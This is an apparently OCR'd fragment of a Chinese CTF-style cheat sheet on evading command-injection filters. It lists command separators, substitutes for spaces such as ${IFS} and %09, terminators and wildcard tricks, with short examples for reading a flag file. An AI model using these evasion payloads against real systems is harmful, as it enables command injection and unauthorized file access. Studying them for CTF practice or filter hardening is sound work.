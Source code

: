 vim   
  
sort   
  
uniq  
#### 2. 常见分隔符  
  
换行符 %0a   
  
回车符 %0d  
  
连续指令   
；  
  
后台进程 &    
  
管道符 |  
  
逻辑 ||、&&  
#### 3. 空格  
  
可以用以下字符代替空格  
  
<   #tac<fla''g.php||  
  
>  # > 在Linux是追加并覆盖文件的意思，使用该命令需要写的权限  
  
${IFS}  
  
$IFS$9  
  
%0a  
  
%09  (反引号中只能用%09绕过)  
  
%20  
  
%3c  
  
$@            # cat$@t flag  
  
$1-$9        # cat$1t flag  
  
${数字}      # cat${1}t flag  
  
  
$IFS在linux下表示分隔符加一个{}固定了变量名同理在后面加个$可以起到截断的作用  
  
$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串  
#### 4. 命令终止符  
  
%00  
  
%20  
#### 5. 通配符  
  
* 字符被过滤，用  
“   
*   
”  
号（通配符）代替，如fla* ，通过测试不能与IFS或<这两个字符一起使用  
  